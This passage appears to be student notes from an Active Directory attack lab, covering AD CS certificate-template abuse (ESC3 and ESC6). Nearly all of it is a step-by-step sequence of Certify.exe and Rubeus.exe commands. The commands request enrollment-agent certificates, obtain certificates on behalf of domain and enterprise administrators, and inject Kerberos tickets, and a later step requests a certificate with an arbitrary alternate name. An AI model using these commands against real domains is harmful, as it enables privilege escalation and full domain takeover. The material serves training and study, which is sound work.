 The template **SmartCardEnrollment-Users** has an Application Policy Issuance Requirement of Certificate Request Agent and has an EKU that allows for domain authentication. Search for domain authentication EKU:
```powershell
Certify.exe find /json /outfile:C:\AD\Tools\file.json ((Get-Content C:\AD\Tools\file.json | ConvertFrom-Json).CertificateTemplates | ? {$_.ExtendedKeyUsage -contains "1.3.6.1.5.5.7.3.2"}) | fl *
```

### Escalation to DA
We can now request a certificate for Certificate Request Agent from **SmartCardEnrollment-Agent** template:
```powershell
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA/template:SmartCardEnrollment-Agent
```

Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of DA using the **SmartCardEnrollment-Users** template:
```powershell
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA/template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
```

Convert from cert.pem to pfx (esc3user-DA.pfx below), request DA TGT and inject it:
```powershell
Rubeus.exe asktgt /user:administrator /certificate:esc3user-DA.pfx /password:SecretPass@123 /ptt
```

### Escalation to EA
Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of EA using the **SmartCardEnrollment-Users** template:
```powershell
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
```	

Request EA TGT and inject it:
```powershell
Rubeus.exe asktgt /user:moneycorp.local\administrator /certificate:esc3user.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt
```


### AD CS - ESC6

The CA in moneycorp has **EDITF_ATTRIBUTESUBJECTALTNAME2** flag set. This means that we can request a certificate for ANY user from a template that allow enrollment for normal/low-privileged users:
```powershell
Certify.exe find
```

The template **CA-Integration** grants enrollment to the RDPUsers group. Request a certificate for DA (or EA) as studentx:
```powershell
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"CA-Integration" /altname:administrator
```
